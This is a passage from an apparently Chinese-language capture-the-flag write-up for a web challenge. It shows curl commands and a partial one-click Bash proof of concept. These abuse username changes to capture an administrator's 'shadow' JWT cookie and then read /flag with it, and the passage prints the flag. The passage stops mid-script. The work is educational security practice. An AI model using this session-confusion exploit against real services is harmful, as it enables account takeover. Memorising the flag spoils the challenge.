 3) 把自己的用户名改成该 UUID，然后再次用该 UUID 登录，以捕获 `shadow` JWT 值：

```bash
# 改名为管理员 UUID（会清空 shadow）
curl -s -i -c cookies.txt -b cookies.txt \
  -X POST 'https://web-shadow-the-hedgedog-a360d99d6aeb.c.sk8.dog/change-username' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data "newUsername=$ADMIN_UUID" >/dev/null

# 再以该 UUID 登录，抓取响应头中的 Set-Cookie: shadow=...
SHADOW=$(curl -s -D - -o /dev/null -c cookies.txt -b cookies.txt \
  -X POST 'https://web-shadow-the-hedgedog-a360d99d6aeb.c.sk8.dog/login' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data "username=$ADMIN_UUID&password=Password1" \
  | awk -F': ' '/^Set-Cookie: shadow=/{print $2}' | sed -E 's/;.*//' | sed 's/^shadow=//')

echo "Captured shadow token length: ${#SHADOW}"
```

4) 把自己的用户名再改回任意新值（与管理员 UUID 脱钩），仅携带上一步捕获的 `shadow` 访问 `/flag`：

```bash
# 改名回其他任意值
curl -s -i -c cookies.txt -b cookies.txt \
  -X POST 'https://web-shadow-the-hedgedog-a360d99d6aeb.c.sk8.dog/change-username' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data "newUsername=whoami-$RANDOM" >/dev/null

# 仅带旧 token 访问 /flag（此时 DB 中该 UUID 只对应真正管理员）
curl -s -H "Cookie: shadow=$SHADOW" \
  'https://web-shadow-the-hedgedog-a360d99d6aeb.c.sk8.dog/flag' | sed -n '1,120p'
```

如无意外，将返回 FLAG 页面，包含：

```text
skbdg{i_am_th3_ultimat3_lif3form_woof!}
```

---

### 五、一键 PoC（Bash）

下面脚本整合了注册→登录→创建管理员→解析 UUID→改名→二次登录抓 token→改回名→仅带 token 读 `/flag` 全流程，成功时打印 FLAG：

```bash
#!/usr/bin/env bash
set -euo pipefail
BASE='https://web-shadow-the-hedgedog-a360d99d6aeb.c.sk8.dog'
JAR="/tmp/shadow_ctf.$$.cookies"; : > "$JAR"
U="p$RANDOM$RANDOM"; P='Password1'

# 注册 + 登录
curl -s -i -c "$JAR" -b "$JAR" -X POST "$BASE/signup" -H 'Content-Type: application/x-www-form-urlencoded' --data "username=$U&password=$P" >/dev/null
curl -s -i -c "$JAR" -b "$JAR" -X POST "$BASE/login"  -H 'Content-Type: application/x-www-form-urlencoded' --data "username=$U&password=$P" >/dev/null

# 创建管理员并从 /home 解析 Admin 'UUID' created
curl -s -i -c "$JAR" -b "$JAR" -X POST "$BASE/create-admin" -H 'Content-Type: application/x-www-form-urlencoded' --data '' >/dev/null
ADMIN=$(curl -s -c "$JAR" -b "$JAR" "$BASE/home" | sed -n "s/.*Admin '\([^']\+\)'.*/\1/p")
[ -z "$ADMIN" ] && { echo '[-] parse admin uuid failed'; exit 1; }

echo "[+] admin: $ADMIN"

# 改名为管理员 UUID（清空 shadow），再用该 UUID 登录并抓取 shadow 值
```